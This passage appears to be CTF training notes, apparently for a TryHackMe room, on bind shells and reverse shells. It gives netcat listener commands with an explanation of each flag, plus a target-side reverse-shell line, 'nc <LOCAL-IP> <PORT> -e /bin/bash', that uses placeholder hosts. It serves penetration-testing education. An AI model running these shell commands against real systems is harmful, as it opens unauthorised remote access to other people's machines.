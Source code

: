 ```commandline
nc MACHINE_IP <port>
```

![alt text](images/bind-shell-example-01.png "Bind Shell Screenshot")

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Reverse Shells

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

![alt text](images/reverse_shell_01.png "Reverse Shell Screenshot")

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

**On the host**

To start a netcat listener on Linux:

```commandline
nc -lvnp <port-number>
```

For example:

```commandline
sudo nc -lvnp 443
```

- `-l` - Is used to tell netcat that this will be a listener
- `-v` - Is used to request a verbose output
- `-n` - Tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p` - Indicates that the port specification will follow.

If we want to make use of a port below the `1024`, we need admin (sudo) rights to do so. We should also keep in mind using a well-known port number. Something like 80, 443, 53.

**On the target**

```commandline
nc <LOCAL-IP> <PORT> -e /bin/bash
```
